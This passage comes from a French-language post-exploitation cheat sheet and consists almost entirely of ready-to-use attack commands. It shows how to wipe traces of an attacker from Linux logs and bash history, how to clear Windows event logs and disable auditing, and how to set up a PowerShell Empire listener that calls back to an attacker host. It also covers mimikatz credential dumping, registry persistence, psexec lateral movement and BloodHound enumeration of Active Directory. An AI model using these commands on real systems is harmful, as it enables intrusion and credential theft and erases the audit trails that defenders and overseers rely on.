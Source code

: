 ```bash
sed -i '/attacker_ip/d' /var/log/auth.log
grep -v "specific_command" ~/.bash_history > temp && mv temp ~/.bash_history
```

### Log Cleaning Windows
```bash
# 1. Via Meterpreter
meterpreter > clearev              # Clear all event logs

# 2. Via PowerShell
meterpreter > shell
C:\> powershell "Clear-EventLog -LogName Application,System,Security"

# 3. Nettoyer des logs spécifiques
C:\> wevtutil cl Application
C:\> wevtutil cl System
C:\> wevtutil cl Security

# 4. Désactiver le logging temporairement
C:\> auditpol /set /category:"Logon/Logoff" /success:disable /failure:disable
```

## 🛠️ Outils Avancés de Post-Exploitation

### PowerShell Empire
```bash
# 1. Génération d'un agent PowerShell
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://attacker_ip:8080
(Empire: listeners/http) > execute

(Empire) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > generate

# 2. Commandes post-exploitation
(Empire: [agent_name]) > usemodule credentials/mimikatz/logonpasswords
(Empire: [agent_name]) > usemodule persistence/userland/registry
(Empire: [agent_name]) > usemodule lateral_movement/invoke_psexec
```

### BloodHound pour Active Directory
```bash
# 1. Collecte des données AD
# Sur la machine compromise:
powershell -ep bypass
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain domain.com

# 2. Analyse avec BloodHound
neo4j start
./BloodHound
# Import des fichiers .json générés

# 3. Requêtes utiles
# - Find all Domain Admins
# - Shortest Paths to Domain Admins from Owned Principals
# - Find Kerberoastable Users
```
